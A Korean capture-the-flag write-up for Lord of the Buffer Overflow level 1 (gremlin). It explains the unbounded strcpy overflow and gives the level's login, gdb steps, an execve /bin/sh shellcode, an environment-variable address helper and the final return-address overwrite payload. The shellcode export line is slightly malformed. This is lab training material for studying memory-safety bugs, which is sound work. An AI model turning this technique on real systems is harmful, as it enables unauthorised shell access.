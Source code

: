 # LOB 1번

#### ID : gate PW: gate
<br>

우선 gremlin.c의 내용을 보자<br>
```cat gremlin.c```<br>
```c
#include <stdio.h>

int main(int argc, char *argv[1])
{
      char buffer[256];
      if (argc < 2){
        printf("argv error\n");
        exit(0);
      }
      strcpy(buffer, argv[1]);
      printf("%s\n", buffer);
}
```
버퍼로 256byte를 입력받을 수 있고 argc가 2개 미만이면 오류를 출력하고 프로그램을 종료시킨다.<br>
2개 이상이라면 buffer에 argv[1] 인자를 복사하고 출력한다.<br>
이 문제는 strcpy 함수를 실행할 때 정해진 복사할 크기가 없다는 취약점을 이용한 것이다<br>

우리의 목적을 생각해보자.<br>
1. buffer 위치 구하기
2. 환경변수 등록 후 주소 얻기
3. ret에 환경변수 주소 덮어씌우기
3. 공격!

**gremlin 코드를 디버깅해야하기 때문에 gremlin1로 복사하자.**<br>

**그리고 디버깅을 해보자**<br>
```gdb -q gremlin1```<br>
```set disassembly-flavor intel```<br>
```disas main```<br>

<main+3>을 보면 0x100만큼의 공간을 만들고 있다. 0x100은 10진수로 256이다.<br>
buffer에서 ebp까지의 거리가 256이라는 것이다.<br>

25byte 쉘코드를 등록해준 후 주소값을 얻는 코드를 통해 주소값을 얻자.<br>
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80<br>

```export shellcode=$(python -c 'print "\n90"*20+\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"')```<br>
vi에디터를 이용해 쉘 코드의 주소값을 받아오는 코드를 작성한다.<br>
```vi shell.c```<br>
```c
#include <stdio.h>

int main()
{
    printf("%p\n", getenv("shellcode"));
    return 0;
}
```
```
gcc -o shell shell.c
./shell
```
만든 코드를 실행시키면 쉘 코드의 주소값을 알 수 있다.<br>

**이제 페이로드를 작성해보자.**<br>
```../gremlin `python -c 'print "A"*260+"\x25\xfd\xff\xbf"'` ```<br>
*(주소는 little endian 방식으로 입력된다)*<br>
<br>
**공격 실시!**<br>
```../gremlin `python -c 'print "A"*260+"\x25\xfd\xff\xbf"'` ```<br>
```my-pass```로 비밀번호를 물어보면<br>
euid와 함께 비밀번호가 "~~". 라고 나올 것이다!!
